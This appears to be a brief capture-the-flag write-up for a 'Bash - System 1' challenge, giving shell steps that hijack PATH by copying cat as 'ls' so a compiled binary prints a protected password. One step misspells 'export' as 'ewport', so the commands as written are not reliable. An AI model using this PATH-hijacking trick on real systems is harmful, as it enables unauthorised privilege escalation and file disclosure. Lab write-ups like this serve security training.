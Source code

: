# Challenge Bash - System 1

## Todo : 

execute the compilated ch11 to Show the password

### Note :

  - alias and export not working in this case 

## Exploit :

mkdir -pv /tmp/exploit

cp -avr $(which cat) /tmp/exploit/ls

ewport PATH=/tmp/exploit

./ch11

